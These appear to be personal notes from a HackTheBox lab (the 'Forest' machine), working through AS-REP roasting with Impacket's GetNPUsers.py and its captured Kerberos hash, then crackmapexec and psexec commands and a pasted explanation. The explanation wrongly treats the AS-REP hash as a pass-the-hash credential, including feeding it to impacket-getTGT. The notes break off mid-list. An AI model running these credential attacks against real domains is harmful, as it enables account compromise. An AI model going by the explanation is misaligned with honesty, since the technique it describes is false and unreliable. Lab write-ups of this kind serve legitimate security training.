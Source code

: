 
python3 GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -usersfile user.txt -format hashcat -outputfile hashes.txt

```
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:551fefcdbe6bd38fa9495e57995ed2d6$92acd15a0f8d04783d3959a2409dc2e2bab01f687457eb9a823c3560f0eb981a769bd80ee546c2f5f5e9b06bfbebf877e43394fae2c98a4e4babc88a95444be2e1d5ba7d600833f72edb31ac5edce8eb4c2d9e241c207abe938e316e57b2c312fc5cbd6a40e69c88fe7a27e12d4456f28bee9ab15970e9c546ecba002efa2813958522a8cd0e3f7be06469b590d272c232c284ffebe9941d7b30e788a3238815ee6b451171aa783ba5523592fabeff4febd19bbda4af12f5f88ed74359d35bb2f04c6cc5eddecca686f606c3e19e0cd0132064be49561dd9e46ec808949cd64804580ef6a2e5
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                  
```

### crackmapexec

 crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -d htb.local -H $krb5asrep$23$svc-alfresco@HTB.LOCAL:551fefcdbe6bd38fa9495e57995ed2d6$92acd15a0f8d04783d3959a2409dc2e2bab01f687457eb9a823c3560f0eb981a769bd80ee546c2f5f5e9b06bfbebf877e43394fae2c98a4e4babc88a95444be2e1d5ba7d600833f72edb31ac5edce8eb4c2d9e241c207abe938e316e57b2c312fc5cbd6a40e69c88fe7a27e12d4456f28bee9ab15970e9c546ecba002efa2813958522a8cd0e3f7be06469b590d272c232c284ffebe9941d7b30e788a3238815ee6b451171aa783ba5523592fabeff4febd19bbda4af12f5f88ed74359d35bb2f04c6cc5eddecca686f606c3e19e0cd0132064be49561dd9e46ec808949cd64804580ef6a2e5


 psexec.py “svc-alfresco”:@10.10.10.161 -hashes $krb5asrep$23$svc-alfresco@HTB.LOCAL:551fefcdbe6bd38fa9495e57995ed2d6$92acd15a0f8d04783d3959a2409dc2e2bab01f687457eb9a823c3560f0eb981a769bd80ee546c2f5f5e9b06bfbebf877e43394fae2c98a4e4babc88a95444be2e1d5ba7d600833f72edb31ac5edce8eb4c2d9e241c207abe938e316e57b2c312fc5cbd6a40e69c88fe7a27e12d4456f28bee9ab15970e9c546ecba002efa2813958522a8cd0e3f7be06469b590d272c232c284ffebe9941d7b30e788a3238815ee6b451171aa783ba5523592fabeff4febd19bbda4af12f5f88ed74359d35bb2f04c6cc5eddecca686f606c3e19e0cd0132064be49561dd9e46ec808949cd64804580ef6a2e5


### explanation

```md
1. Impacket's psexec with Kerberos Authentication

You can use Impacket, which supports passing Kerberos tickets or hashes directly. First, ensure that you have a valid Kerberos ticket or configuration.

Here’s how you can pass the AS-REP hash using impacket-psexec or similar tools:

export KRB5CCNAME=/path/to/your/ccache
impacket-psexec -k -no-pass -dc-ip <DC_IP> <domain>/<user>@<target>

Steps to generate a valid ccache:

    Use the AS-REP hash to authenticate and generate a Kerberos ticket. A tool like impacket-getTGT can help:

impacket-getTGT -hashes :$krb5asrep$23$svc-alfresco@HTB.LOCAL:551fefcd... htb.local/svc-alfresco

This will save the Kerberos ticket in the default ccache location (e.g., /tmp/krb5cc_<uid>).

Export the generated ccache and use it for further authentication:

    export KRB5CCNAME=/path/to/ccache

Now, use Impacket tools like wmiexec.py, smbexec.py, or psexec.py for remote execution.
2. Kerbrute or Rubeus for Kerberos Authentication

```